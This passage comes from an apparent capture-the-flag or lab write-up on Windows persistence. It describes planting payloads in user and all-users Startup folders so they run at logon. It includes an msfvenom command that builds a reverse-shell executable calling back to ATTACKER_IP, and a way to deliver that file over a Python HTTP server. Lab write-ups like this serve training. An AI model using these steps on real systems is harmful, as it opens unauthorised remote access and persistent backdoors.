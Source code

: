     * Set listener on our machine

        ![task3-listener2](./images/task3-listener2.png)

    * Get the shell and flag

        ![task5-flag9](./images/task5-flag9.png)

## Task 6 - Logon Triggered Persistence

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.

### Startup folder

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file:

![task6-http](./images/task6-http.png)
